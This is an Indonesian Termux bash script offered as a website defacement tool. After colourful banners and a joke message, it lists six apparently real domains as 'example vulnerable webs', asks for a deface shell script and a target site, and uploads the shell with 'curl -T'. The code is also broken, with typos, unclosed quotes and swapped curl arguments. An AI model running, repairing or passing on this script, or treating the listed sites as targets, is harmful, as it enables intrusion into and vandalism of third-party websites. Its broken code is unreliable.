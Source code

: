 #usr/bin/bash

clear
bi='\033[34;1m' #biru
i='\033[32;1m' #ijo
pur='\033[35;1m' #purple 
cy='\033[36;1m' #cyan
me='\033[31;1m' #merah
pu='\033[37;1m' #putih
ku='\033[33;1m' #kuning

echo $me"   ║██  ❤️❤️  ❤️❤️  ██   ██    
echo $me"  ║██  ❤️  ❤️  ❤️  ██   ██
echo $me"   ║██    ❤️  ❤️    ██   ██
echo $me"  ║██      ❤️      ███████
echo $me" 
slep 0.5
echo $pu"   ████  ███   █    █   █   █ 
echo $pu"  ██  ██  ██  █  █   █ █   █ █
echo $pu"   ██      ██  █❤️█   █║   █❤️█
echo $pu"   ██      ██  █  █   █║   █  █
echo $pu"
echo ""
echo ""
echo ""
echo "Script Ini diperbarui Stah ^_^" | lolcat
sleep 1
echo $ku"Pastikan Punya script buat Deface ( shell ) stah ^_^"
echo $i"——————————————————————————————————————————————————————————"
echo $pur"              [•]DARI : IPAN ADITIA
echo $ku"             [•]KEPADA : MAYA LESTARI
echo $i"             [•] PESAN  : AKU SAYANG KAMU
echo $me"      [•]ISI KANDUNGAN : AKU AKAN CHEAT HATI KAMU WK
echo $i"——————————————————————————————————————————————————————————"
sleep 2
echo ""
echo ""
echo ""
echo $i"              CONTOH WEB VULN STAH ^_^"
echo $pur"         [1]http://scnc.co.za "
echo $pur"         [2]http://handj.co.za"
echo $pur"         [3]http://lwrm.co.za"
echo $pur"         [4]http://mc3qs.com"
echo $pur"         [5]http://mpark.co.za"
echo $pur"         [6]http://8x8.co.za"
echo ""
echo ""
echo " Udah asw jangan banyak - banyak ^_^" | lolcat
echo $pur"Aing Noob stah ^_^"
read -p "Masukkan Script defacenya ( shell )  :" script;
read -p "Masukkan web yg mau di deface        :" web;
echo "SEDANG MENDEFACE STAH ^_^" | lolcat
echo $i"L"$ku"O"$me"A"$pur"D"$cy"I"$ku"N"$i"G"
termux-setup-storage
curl -T /sdcard/$web $script
echo "Berhasil Di Deface ea :v" | lolcat
echo $i"Buka Hasilnya Disini Stah : $web/ $script"

